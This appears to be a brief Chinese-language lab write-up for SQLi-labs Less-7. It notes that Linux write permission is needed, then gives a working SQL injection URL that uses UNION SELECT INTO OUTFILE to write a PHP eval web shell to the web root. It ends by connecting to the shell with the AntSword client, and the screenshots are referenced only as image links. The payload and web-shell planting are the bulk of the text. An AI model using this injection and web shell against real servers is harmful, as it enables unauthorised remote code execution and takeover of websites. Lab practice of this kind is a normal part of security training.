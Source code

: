 ==对于此漏洞的复现，Linux文件权限需要给予写权限==

```
http://192.168.231.129:9001/Less-7/?id=1')) UNION SELECT 1,"<?php eval($_POST['cmd']);?>",3 into outfile "/var/www/html/shell.php"%23
```

<img src="%E6%A9%99%E5%AD%90%E7%A7%91%E6%8A%80.assets/image-20230605225553170.png" alt="image-20230605225553170" style="zoom:50%;" />

蚁剑连接

<img src="%E6%A9%99%E5%AD%90%E7%A7%91%E6%8A%80.assets/image-20230605230240610.png" alt="image-20230605230240610" style="zoom:50%;" />
